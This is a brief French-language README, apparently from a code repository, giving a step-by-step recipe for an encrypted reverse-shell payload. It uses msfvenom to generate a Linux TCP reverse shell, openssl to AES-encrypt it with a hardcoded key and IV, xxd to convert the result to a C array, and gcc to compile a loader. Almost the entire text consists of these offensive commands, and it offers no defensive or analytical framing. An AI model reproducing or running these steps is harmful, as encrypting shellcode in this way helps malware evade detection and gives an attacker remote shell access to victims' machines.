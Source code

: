 Generer un reverse_shell_tcp :
msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw -o shell.raw
Le chiffrer en AES : 
openssl enc -aes-128-cbc -nosalt -e -in shell.raw -out shell.enc -K '2b7e151628aed2a6abf7158809cf4f3c' -iv '000102030405060708090a0b0c0d0e0f' 
Recuperer le ciphertext : 
xxd -i shell.enc > shellcode.c > ciphertext to C tab

gcc enc_reverse_shell.c -lcrypto -lssl